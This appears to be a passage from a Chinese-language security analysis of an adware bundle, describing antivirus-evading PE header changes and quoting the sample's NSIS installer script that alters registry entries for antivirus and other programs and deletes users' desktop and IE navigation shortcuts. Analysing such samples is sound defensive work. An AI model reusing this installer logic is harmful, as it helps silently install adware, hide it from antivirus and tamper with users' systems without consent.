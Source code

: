 这3个程序的PE头被修改,防止被杀软查杀.

![](http://drops.javaweb.org/uploads/images/96a085255d71b319d9797908b33d69b25df055f7.jpg)

图 12 修改后的PE头

其他为广告软件安装程序.

系统重启后,广告程序全部都静默安装

0x03 技术细节
=====

1) 安装过程：
--------

### A) 安装包使用NSIS打包

首先,禁用常用程序的快速启动任务栏显示，为后面安装软件留位置

```
WriteRegStr HKCR Applications\$_gmbox_.exe NoStartPage ""
WriteRegStr HKCR Applications\uninstall.exe NoStartPage ""
WriteRegStr HKCR Applications\uninstall.exe NoStartPage ""
WriteRegStr HKCR Applications\rsmain.exe NoStartPage ""
WriteRegStr HKCR Applications\360sd.exe NoStartPage ""
WriteRegStr HKCR Applications\rsagent.exe NoStartPage ""
WriteRegStr HKCR Applications\360safe.exe NoStartPage ""
WriteRegStr HKCR Applications\rsmctray.exe NoStartPage ""
WriteRegStr HKCR Applications\kav.exe NoStartPage ""
WriteRegStr HKCR Applications\rsstub.exe NoStartPage ""
WriteRegStr HKCR Applications\SHPlayer.exe NoStartPage ""
WriteRegStr HKCR Applications\wandoujia.exe NoStartPage ""
WriteRegStr HKCR Applications\wandoujia2.exe NoStartPage ""
WriteRegStr HKCR Applications\Uninst.exe NoStartPage ""

```

### B) 删除桌面和IE中的网址导航快捷方式

```
Delete $DESKTOP\*123*.lnk
Delete $DESKTOP\*123*.url
Delete $DESKTOP\*Int*.lnk
Delete $DESKTOP\*Int*.url
Delete $DESKTOP\*1nt*.lnk
Delete $DESKTOP\*1nt*.url
Delete $DESKTOP\*网址*.lnk
Delete $DESKTOP\*网址*.url
Delete $DESKTOP\*导航*.lnk
Delete $DESKTOP\*导航*.url    

Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*123*.lnk"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*123*.url"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*Int*.lnk"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*Int*.url"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*1nt*.lnk"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*1nt*.url"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*网址*.lnk"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*网址*.url"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*导航*.lnk"
Delete "$APPDATA\Microsoft\Internet Explorer\Quick Launch\*导航*.url"
Delete $INSTDIR\ad.dat

```
